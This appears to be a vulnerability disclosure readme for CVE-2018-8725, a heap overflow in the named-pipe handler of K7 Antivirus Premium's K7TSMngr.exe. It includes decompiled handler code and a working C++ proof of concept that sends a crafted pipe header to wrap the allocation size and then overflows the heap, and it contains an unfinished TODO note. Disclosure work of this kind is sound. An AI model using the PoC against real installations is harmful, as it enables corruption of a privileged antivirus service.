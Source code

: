 # CVE-2018-8725

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 16.0.0.0* 
* **Component**: *K7TSMngr.exe 16.0.0.70*
  * SHA256: E6655EBC79644E7DB6FC36B2D98DE88A9635F47B3ADF1D834FD357D5EA3E15A6

# K7TSMngr.exe Pipe Handler Background
*See description in [CVE-2018-8724](../CVE-2018-8724/readme.md)*

# Details
Following on from the background piece above, in the top level pipe handler function there is a vulnerability in the header packet which can lead to a heap overflow:

# **TODO: MORE HERE? What message type, how much can it overflow, etc**


```C++
int __cdecl NamedPipeHandler(HANDLE dwBytesRead)
{
    // ... Locals ...

    bReturn = ReadFile(hPipe, &stInput, 0x1Cu, (LPDWORD)&dwBytesRead, 0);
    dwLastError = GetLastError();
    if ( bReturn || dwLastError == 234 )
    {
        // Sanity check that we are allowed to talk to the pipe... relatively simple to see the
        // checks and bypass them.
        if ( dwBytesRead == 0x1C
            && stInput.dwMagic == 0x4B375453
            && stInput.dwControlCode == 0x1010
            && stInput.dwInSize == 0x1C )
        {
            // This calculation here is overflowable. As an attacker, I own dwSizeToRead and 
            // dwOutputDataSize, and they are not checked for length at all. Therefore all I need
            // to do is make a situation where dwSizeToAlloc is less thatn stInput.dwSizeToRead.
            if ( (unsigned int)(stInput.dwSizeToRead + stInput.dwOutputDataSize + 36) <= 0x100000 )// VULN
            {
                dwSizeToAlloc = stInput.dwSizeToRead + stInput.dwOutputDataSize + 36;
                hProcessHeap = GetProcessHeap();
                // We allocate the data here...
                pBuffer = (PBYTE)HeapAlloc(hProcessHeap, 0, dwSizeToAlloc);
                if ( pBuffer )
                {
                    v8 = &pBuffer[stInput.dwSizeToRead];
                    if ( stInput.dwSizeToRead )
                    {
                        dwBytesRead = 0;
                        // pBuffer is (dwSizeToAlloc) bytes large. Therefire if this is smaller 
                        // than dwSizeToRead, we are going to overflow the heap.
                        bReturn_1 = ReadFile(hPipe_1, pBuffer, stInput.dwSizeToRead, (LPDWORD)&dwBytesRead, 0);
                        // ... 
                    }
                    // ...
                }
                // ...
            }
            // ...
        }
        // ...
    }
    // ...
}
```


# PoC Code
The following code simply demonstrates the buffer overflow which can be detected using a debugger, or setting up debug heaps on the process. This wasn't turned into anything further as it demonstrated the issue well enough for the development team to fix.

```C++
#include <Windows.h>
#include <stdio.h>

typedef struct unk1
{
	DWORD dwMagic;
	DWORD dwControlCode;
	DWORD dwInSize;
	DWORD field_c;
	DWORD dwSomeFunction;
	DWORD dwInputDataSize;
	DWORD dwOutputDataSize;
};

int wmain(int argc, wchar_t** argv)
{
	HANDLE hPipe = CreateFileW(L"\\\\.\\pipe\\K7TSMngrService1", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (hPipe == INVALID_HANDLE_VALUE)
	{
		printf("CreateFileW Failed: 0x%08x\r\n", GetLastError());
		return 0;
	}

    // This is the pipe message header packet.
	unk1 u1 = { 0 };
	u1.dwMagic = 0x4B375453;
	u1.dwControlCode = 0x1010;
	u1.dwInSize = 28;

	// This combination of sizes means that theck will pass, and it will allocate 0 bytes, return a
	// valid pointer and we can overwrite by 0x10000 bytes. We can control how much will be
	// overwritten by changing the input size in this calculation.
	u1.dwInputDataSize = 0x10000;
	u1.dwOutputDataSize = 0xffffffff - 35 - u1.dwInputDataSize;

	DWORD dwBytesWritten = 0;
	if (!WriteFile(hPipe, &u1, sizeof(u1), &dwBytesWritten, NULL))
	{
		printf("WriteFile 1 Failed: 0x%08x\r\n", GetLastError());
		return 0;
	}

	// The second ReadFile will try to read 0x10000 bytes into a buffer that is 0 bytes, therefore
    // causing a buffer overflow.
	BYTE data[0x10000] = { 0 };
	memset(data, 0x41, sizeof(data));
	if (!WriteFile(hPipe, data, sizeof(data), &dwBytesWritten, NULL))
	{
		printf("WriteFile 1 Failed: 0x%08x\r\n", GetLastError());
		return 0;
	}
}


```

